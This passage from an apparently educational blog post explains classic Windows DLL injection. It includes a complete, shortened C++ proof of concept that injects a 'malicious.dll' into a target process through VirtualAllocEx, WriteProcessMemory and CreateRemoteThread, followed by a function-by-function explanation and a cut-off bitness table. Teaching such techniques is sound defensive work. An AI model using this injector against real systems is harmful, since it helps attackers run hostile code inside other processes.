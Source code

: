                     <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24"><defs><style>.a{fill:none;stroke:currentColor;stroke-linecap:round;stroke-linejoin:round;stroke-width:1.5px;}</style></defs><title>download-circle</title><polyline class="a" points="8.25 14.25 12 18 15.75 14.25"/><line class="a" x1="12" y1="6.75" x2="12" y2="18"/><circle class="a" cx="12" cy="12" r="11.25"/></svg>
                </div>
            </a>
        </div>
        <p>Removing the comments and the conditional statements checking the return values of the functions, it's possible to keep the source code under thirty lines of code:</p><figure class="kg-card kg-code-card"><pre><code class="language-cpp">#include &lt;Windows.h&gt;
#include &lt;stdio.h&gt;
#include &lt;TlHelp32.h&gt;

int main(int argc, char* argv[])
{
    unsigned int victimProcessId;

    if (argc &gt; 1)
    {
        victimProcessId = atoi(argv[1]);
    }
    else
    {
        printf("[+] Usage:\n\tprogram.exe PID\n");
        return 1;
    }

    DWORD desiredAccess = PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ;
    HANDLE victimProcessHandle = OpenProcess(desiredAccess, NULL, victimProcessId);

    LPVOID allocatedMemory = VirtualAllocEx(victimProcessHandle, NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    char maliciousLibrary[] = "C:\\Users\\rbct\\Desktop\\malicious.dll";

    BOOL retVal = WriteProcessMemory(victimProcessHandle, allocatedMemory, maliciousLibrary, strlen(maliciousLibrary), NULL);
        
    HMODULE handleTargetModule = GetModuleHandleA("kernel32.dll");
    PVOID loadLibraryLocalAddress = GetProcAddress(handleTargetModule, "LoadLibraryA");

    HANDLE remoteThread = CreateRemoteThread(victimProcessHandle, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryLocalAddress, allocatedMemory, 0, NULL);
    
    WaitForSingleObject(remoteThread, INFINITE);
}</code></pre><figcaption>Shorter version of the proof of concept</figcaption></figure><p>Minified or not, the source code runs the following Win32 API functions:</p><ul><li><code>OpenProcess</code> opens the process identified by the PID passed to the function, returning a <em>HANDLE </em>to the remote process</li><li><code>VirtualAllocEx</code> allocates a new memory page (default size of 4096 bytes) in the remote process, setting it as readable and writable.</li><li><code>WriteProcessMemory</code> writes the path of the DLL in the allocated memory page</li><li><code>GetProcAddress</code> retrieves the address of the function <code>LoadLibraryA</code> in the memory space of the current process. This address should be the same for the remote process, otherwise the injection will fail.</li><li><code>CreateRemoteThread</code> creates a new thread in the remote process, which calls the function <code>LoadLibraryA</code> with the pointer to the DLL path</li><li><code>WaitForSingleObject</code> awaits the termination of the remote thread</li></ul><p>That's the everyday Classic DLL Injection you can find on the Internet. It's pretty simple to implement, however it suffers from a little problem regarding the bitness of the processes.</p><p>To be more specific, the bitness of the remote process must be equal to the bitness of the current process i.e., the one doing the injection:</p><table><thead><tr><th></th>
<th>Remote Process (32-bit)</th>
<th>Remote Process (64-bit)</th>
</tr>
</thead>
<tbody>
<tr>
<td>Current Process (32-bit)</td>